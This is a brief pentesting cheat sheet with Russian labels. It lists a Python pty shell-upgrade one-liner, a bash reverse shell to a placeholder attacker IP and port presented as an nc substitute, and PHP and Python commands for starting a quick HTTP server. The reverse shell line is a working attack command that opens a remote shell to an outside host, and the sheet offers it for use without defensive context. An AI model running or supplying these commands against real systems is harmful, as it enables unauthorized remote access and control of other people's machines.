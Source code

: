 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
аналог nc:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```

поднять сервер:

```
php -S {ip}:{port}
```
```
python3 -m http.server {port}
```